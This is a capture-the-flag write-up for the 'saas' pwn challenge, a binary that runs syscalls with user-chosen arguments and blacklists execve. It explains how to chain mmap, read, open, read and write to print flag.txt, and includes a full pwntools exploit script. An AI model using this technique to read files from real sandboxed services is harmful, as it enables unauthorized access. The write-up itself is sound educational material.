 # [pwn] saas writeup

> You've heard of software as a service, but have you heard of syscall as a service?

In this challenge we have a binary that let us make syscalls with arbitrary parameters; before starting to dig into the code we can make some checks with checksec and with strings.
Checksec's output is:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
So this is not looking good, everything is enabled. Analyzing the binary with strings doesn't reveal nothing really important, so the next step is to execute the binary.

```
$ ./saas 
Welcome to syscall-as-a-service!

Enter rax (decimal): 0
Enter rdi (decimal): 0
Enter rsi (decimal): 0
Enter rdx (decimal): 0
Enter r10 (decimal): 0
Enter r9 (decimal): 0
Enter r8 (decimal): 0
Rax: 0x0
```
We are basically in a while true which lets us make syscalls with arbitrary parameters (and it shows us the return value). The first thing that came into my mind was to try and call execve, but the program will prevent us from calling some blacklisted syscalls (such as execve). The complete list of all the blocked syscall is: 0x3b, 0x39, 0x38, 0x3e, 0x65, 0xc8, 0x142.

## Solution

We cannot use execve, but we can still access many other syscalls. We can assume that this binary is in the same directory in which we have our flag.txt file, so (if this is true) we can try to *open* the file, *read* its contents and *write* them on stdout. In order to do that we can use 3 syscalls (obviously, open, read and write). But there is a little problem, to open a file we need its name, which is a string and which needs to be placed somewhere in the memory of the process, but since there's PIE we have no static addresses for r/w sections that we can possibly modify. After a bit of thinking, we can just allocate our own buffer using mmap, the address will be returned from the syscall, then we will write the string "flag.txt" (null terminated) on it and we can then open the file.

In C, what we want to do is as follow:

```
void* addr = mmap(0, 128, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
read(stdin, addr, 9);
int fd = open(addr, O_RDONLY, 0644);
read(fd, addr, 64);
write(stdout, addr, 64);
```

We have access to all this syscalls, we just need to convert our parameters to decimal:
PROT_READ|PROT_WRITE = 3
MAP_PRIVATE|MAP_ANONYMOUS = 4
0644 = 420 (0644 is octal)
stdin = 0
stdout = 1

## Code
At this point we just need a program that sends everything to the process' stdin, we just need to capture the retval of the mmap (for the address) and the retval of the open (for the file descriptor).
The program is (in python) as follow (in this directory you will find the .py file):
from pwn import *
```
#p = remote("jh2i.com", 50016)

p = gdb.debug("./saas", """
c
""")


#mmap
p.sendline("9")		#rax
p.sendline("0")		#rdi
p.sendline("128")	#rsi
p.sendline("3")		#rdx
p.sendline("34")	#r10
p.sendline("0")		#r9
p.sendline("-1")	#r8

p.recvuntil("Rax: 0x")
addr = str(p.recvuntil("\n")[:-1])[2:-1]
addr = str(int(addr,16))
print("Heap address ="+addr)

#read
p.sendline("0")		#rax
p.sendline("0")		#rdi
p.sendline(addr)	#rsi
p.sendline("9")		#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8
p.sendline("flag.txt"+'\x00')
p.recvuntil("Rax: 0x")

#open
p.sendline("2")		#rax
p.sendline(addr)	#rdi
p.sendline("0")		#rsi
p.sendline("420")	#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8

p.recvuntil("Rax: 0x")
fd = str(p.recvuntil("\n")[:-1])[2:-1]
fd = str(int(fd,16))
print("File descriptor ="+fd)

#read
p.sendline("0")		#rax
p.sendline(fd)		#rdi
p.sendline(addr)	#rsi
p.sendline("64")	#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8
p.recvuntil("Rax: 0x")

#write
p.sendline("1")		#rax
p.sendline("1")		#rdi
p.sendline(addr)	#rsi
p.sendline("64")	#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8
p.recvuntil("r8 (decimal):")	#we can't read untill "Rax: 0x" because the flag is printed before that happen


p.interactive()
```

